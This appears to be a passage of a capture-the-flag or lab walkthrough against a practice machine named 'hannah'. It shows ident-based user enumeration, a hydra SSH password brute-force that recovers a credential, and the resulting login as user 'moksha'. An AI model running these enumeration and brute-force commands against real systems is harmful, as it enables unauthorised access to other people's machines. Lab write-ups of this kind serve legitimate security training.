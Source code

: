 `ident-user-enum 192.168.56.129 22 80 113`:
```
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.56.129:22       root
192.168.56.129:80       moksha ←
192.168.56.129:113      root
```

`hydra -l 'moksha' -P /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords.txt 192.168.56.129 ssh`:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 08:34:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5189454 login tries (l:1/p:5189454), ~324341 tries per task
[DATA] attacking ssh://192.168.56.129:22/
[STATUS] 103.00 tries/min, 103 tries in 00:01h, 5189353 to do in 839:43h, 14 active
[22][ssh] host: 192.168.56.129   login: moksha   password: hannah
1 of 1 target successfully completed, 1 valid password found

[...]
```

`ssh moksha@192.168.56.129`:
```
moksha@192.168.56.129's password: 
Linux hannah 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 30 14:38:51 2024 from 192.168.56.118
```

![Victim: moksha](https://img.shields.io/badge/Victim-moksha-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
moksha ←
```

`uname -a`:
```
Linux hannah 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
```
